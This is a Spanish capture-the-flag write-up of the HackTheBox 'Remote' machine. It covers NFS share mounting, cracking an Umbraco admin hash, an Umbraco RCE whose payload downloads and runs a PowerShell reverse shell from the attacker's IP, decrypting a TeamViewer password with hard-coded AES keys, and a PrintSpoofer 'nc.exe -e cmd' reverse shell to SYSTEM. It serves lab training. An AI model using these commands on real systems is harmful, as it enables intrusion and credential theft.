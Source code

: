 ```yaml
---
title: HackTheBox - Remote
author: cotes
date: 2023-09-22 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'Information Leakage', 'Umbraco 7.12.4 RCE', 'TeamViewer Exploitation', 'PrintSpoofer']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Remote/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Remote Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Team Viewer Exploitation, PrintSpoofer**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Remote/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Remote/02-versions.png)

* Realizamos un fuzzing al servicio web

    ```bash
    ❯ dirsearch -u http://<IP Remote>/

    <SNIP>
    [14:27:26] 200 -    6KB - /umbraco/webservices/codeEditorSave.asmx
    ```

    > **Umbraco** es un CMS desarrollado en C# para Microsoft
    {: .prompt-info }

* Lo más interesante del servicio **rpcbind** que existe el servicio NFS. Listamos las monturas disponibles

    ```bash
    ❯ showmount -e <IP Remote>
    Export list for 10.10.10.180:
    /site_backups (everyone)
    ```

* Creamos un directorio con el nombre de la montura en `/mnt` y lo montamos

    ```bash
    ❯ mkdir site_backups
    ❯ mount -t nfs <IP Remote>:/site_backups /mnt/site_backups
    ```

c. Ahora ya podemos listar todo el contenido. Al investigar por algún fichero en el que se almacenen credenciales encontramos este [post](https://our.umbraco.com/forum/getting-started/installing-umbraco/35554-Where-does-Umbraco-store-usernames-and-passwords). Aquí nos mencionan que existen credenciales en **App_Data/Umbraco.sdf**

```bash
❯ strings Umbraco.sdf | less

adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
<SNIP>
```

* Obtenemos un correo **admin@htb.local** y un hash **b8be16afba8c314ad33d812f22a04991b90e2aaa** el cual crackearemos con john

    ```bash
    ❯ john admin_hash -w=/usr/share/wordlists/rockyou.txt

    baconandcheese
    ```

d. Estas credenciales nos servirán para el panel de login de **Umbraco**. Una vez dentro, podemos ver la versión de este CMS

![](/assets/images/HTB/Easy/Remote/03-version.png)

* Buscamos un exploit para esta versión de Umbraco [Exploit Db](https://www.exploit-db.com/exploits/46153)

* Primero, nos descargamos [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) y le añadimos esta línea al final

    ```ps1
    Invoke-PowerShellTcp -Reverse -IPAddress <tun0 IP> -Port 443
    ```

* Ahora modificamos el script 

    ```python
    login = "admin@htb.local";
    password="baconandcheese";
    host = "http://<IP Remote>";


    <SNIP>
    string cmd = "/c powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.14.18/reverse.ps1\')"
    proc.StartInfo.FileName = "cmd.exe";
    <SNIP>
    ```

* Montamos un servicio con python, nos ponemos en escucha con nc y ejecutamos el exploit

    ![](/assets/images/HTB/Easy/Remote/04-reverse.png)

### Escalada de Privilegios 💹

Existen 2 formas de escalar privilegios

a. Al investigar un poco el sistema veremos que existe un TeamViewer 7

```ps1
PS C:\Program Files (x86)\TeamViewer> dir

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ---- 
d-----        2/27/2020  10:35 AM                Version7
```

* Si investigamos alguna forma de explotarlo conseguiremos este [exploit](https://github.com/zaphoxx/WatchTV/blob/master/WatchTV.ps1)

b. Los pasos que debemos seguir son

```ps1
PS C:\Program Files (x86)\TeamViewer\Version7> cd HKLM:\\SOFTWARE\\WOW6432Node\\TeamViewer\\Version7
PS HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7> (get-itemproperty .).SecurityPasswordAES
```

* El output del último comando lo pasaremos a una lista.

* Ahora con un script en python obtendremos la contraseña en texto claro

    ```python
    from itertools import product
    from Crypto.Cipher import AES
    import Crypto.Cipher.AES

    key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    IV = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    decipher = AES.new(key,AES.MODE_CBC,IV)

    password_encode = bytes([255,155,28,115,214,107,206,49,172,65,62,174,19,27,70,79,88,47,108,226,209,225,243,218,126,141,55,107,38,57,78,91])
    plaintext = decipher.decrypt(password_encode).decode()
    print("[+] Password:", plaintext)
    -----------------------------------------------------------------------------------------------------------------------------------------------
    ❯ python3 decrypt.py
    [+] Password: !R3m0te!
    ```

* Con esta credencial nos podemos conectar con evil-winrm

    ```bash
    ❯ evil-winrm -i 10.10.10.180 -u administrator -p '!R3m0te!'
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    remote\administrator
    ```

a. La segunda forma es ejecutando [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0). Lo pasamos a la máquina víctima, en conjunto con nc.exe

```bash
❯ ls
PrintSpoofer64.exe
nc.exe
❯ python -m http.server 80
-------------------------------------------------------------------------------------------
PS C:\Temp> iwr -Uri "http://<tun0 IP>/PrintSpoofer64.exe" -OutFile ".\PrintSpoofer64.exe"
PS C:\Temp> iwr -Uri "http://<tun0 IP>/nc.exe" -OutFile ".\nc.exe"
```

* Ahora nos enviamos una reverse shell y ya seremos **nt authority\system**

    ```bash
    PS C:\Temp> .\PrintSpoofer64.exe -i -c "C:\Temp\nc.exe -e cmd 10.10.14.18 4444"


    ❯ nc -lvnp 4444
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.
    ----------------------------------------------------
    C:\Windows\system32>whoami
    nt authority\system
    ```